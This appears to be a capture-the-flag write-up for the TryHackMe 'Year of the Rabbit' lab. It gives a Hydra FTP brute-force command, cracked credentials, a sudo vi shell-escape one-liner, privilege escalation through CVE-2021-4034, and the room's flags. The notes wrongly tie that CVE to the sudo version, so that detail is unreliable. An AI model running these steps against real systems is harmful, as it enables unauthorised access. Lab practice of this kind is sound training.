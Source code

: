 ## YearOfTheRabbit-thm

## Scanning Started
Apache version 2.4.10(Outdated)
  => Nmap:
## Openports: 22 = ssh
	   80 = http
	   21 = ftp
## Directory Busting:
		assets => styles.css => /sup3r_s3cr3t_fl4g.php
	 	The secret Directory will be found by burp suite in one the responses
	 	secret Directory: /WExYY2Cv-qU => Hot_babe.png => crack using strings

#	 strings Hot_babe.png =>
a username = ftpuser
and a number of passwords.



##	Used Hydra to Crack FTP using Credentials from the hidden Directory

		hydra -l ftpuser -P passwords ftp://10.10.103.7


	[21][ftp] host: 10.10.103.7   login: ftpuser   password: 5iez1wGXKfPKQ

## And therefore Discovered a new set of Languages BrainF*ck
	Go online Search a good compiler for the language
	Result:

	User: eli

	Password: DSpDiM1wAEwid


# Linux Priv 

Ran linpeas.sh

## Possible Exploits:
	1) Sudo version 1.8.10p3 

	=> Vulnerable to CVE-2021-4034





	2) Found an Interesting File

	-rw-r--r-- 1 root root 138 Jan 23  2020 /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

## Password For Gwendoline Found in 
	/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

"Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root"

## Flag => user.txt
	THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

## Linux priv esc from Gwen's ID



	sudo /usr/bin/vi -c ':!/bin/sh' /dev/null (Tried but was not a success)

	So as a last resort Performed the CVE-2021-4034



## root.txt
	THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
